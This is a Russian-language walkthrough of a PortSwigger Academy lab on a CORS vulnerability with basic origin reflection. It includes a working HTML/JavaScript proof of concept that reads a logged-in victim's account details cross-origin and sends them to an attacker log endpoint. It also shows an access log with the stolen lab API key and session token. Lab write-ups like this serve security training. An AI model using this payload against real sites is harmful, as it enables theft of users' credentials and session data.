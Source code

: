 Залогинимся под `wiener:peter`

Перейдем в `Proxy` -> `HTTP history` и посмотрим последовательность запросов 

И найдем следующий запрос, который возвращает нам наш api ключ, сессию и имя пользователя 
```
GET /accountDetails
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection/pics%20for%20walkthrough/1.png)

Отправим данный запрос в `Repeater`

и добавим к данному запросу следующий параметр
```
Origin: https://test.com
```
и видим добавление дополнительных header'ов в ответах
```
Access-Control-Allow-Origin: https://test.com

Access-Control-Allow-Credentials: true
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection/pics%20for%20walkthrough/2.png)

Далее перейдем в `Exploit server` и сконфигурируем следующий PoC

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://0af400ab036e9e4080864edf002000ff.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
Нажмем `Store` и `Deliver exploit to victim`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection/pics%20for%20walkthrough/3.png)

После отправки зайдем в `access log`
```
10.0.3.158      2024-03-24 11:14:13 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22qgio0DfCfBmaGTUK9PMjWcP2zNmk1zyE%22,%20%20%22sessions%22:%20[%20%20%20%20%22gk7LDNUGhewt4GLelAhKce6Cx3FDDJRl%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```
и увидим api ключ `qgio0DfCfBmaGTUK9PMjWcP2zNmk1zyE`

сдадим его в качестве ответа и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/1.%20CORS%20vulnerability%20with%20basic%20origin%20reflection/pics%20for%20walkthrough/4.png)

